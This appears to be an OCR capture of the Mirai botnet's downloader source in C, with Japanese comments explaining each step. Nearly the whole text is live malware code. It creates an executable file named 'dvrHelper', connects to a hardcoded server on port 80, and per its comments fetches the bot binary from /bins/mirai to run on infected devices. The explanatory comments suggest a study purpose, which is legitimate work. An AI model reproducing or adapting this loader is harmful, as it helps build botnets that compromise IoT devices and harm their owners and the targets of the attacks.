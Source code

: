 ```c
{ 
#if defined(MIPS) || defined(MIPSEL)
    __asm(
        ".set noreorder\n"
        "move $0, $31\n"
        "bal 10f\n"
        "nop\n"
        "10:\n.cpload $31\n"
        "move $31, $0\n"
        ".set reorder\n"
    );
#endif
    run();
}

// メインの処理
inline void run(void)
{
    char recvbuf[128];
    struct sockaddr_in addr;
    int sfd, ffd, ret;
    unsigned int header_parser = 0;
    int arch_strlen = sstrlen(BOT_ARCH);

    write(STDOUT, EXEC_MSG, EXEC_MSG_LEN);

    addr.sin_family = AF_INET; // AF_INT (IPv4)を指定
    addr.sin_port = HTONS(80); // HTTP通信なのでポート80を使用する
    addr.sin_addr.s_addr = HTTP_SERVER; // 同ファイル内でハードコードして指定したダウンロード元のサーバを指定

    ffd = open("dvrHelper", O_WRONLY | O_CREAT | O_TRUNC, 0777);

    sfd = socket(AF_INET, SOCK_STREAM, 0);

#ifdef DEBUG
    if (ffd == -1)
        printf("Failed to open file!\n");
    if (sfd == -1)
        printf("Failed to call socket()\n");
#endif

    if (sfd == -1 || ffd == -1)
        __exit(1);

#ifdef DEBUG
    printf("Connecting to host...\n");
#endif

    if ((ret = connect(sfd, &addr, sizeof (struct sockaddr_in))) < 0)
    {
#ifdef DEBUG
        printf("Failed to connect to host.\n");
#endif
        write(STDOUT, "NIF\n", 4);
        __exit(-ret);
    }

#ifdef DEBUG
    printf("Connected to host\n");
#endif

// サーバIP/bins/miraiに対して、HTTP GETリクエストを送信, HTTP 1.0を使用, ファイルはカレントディレクトリに保存される
```
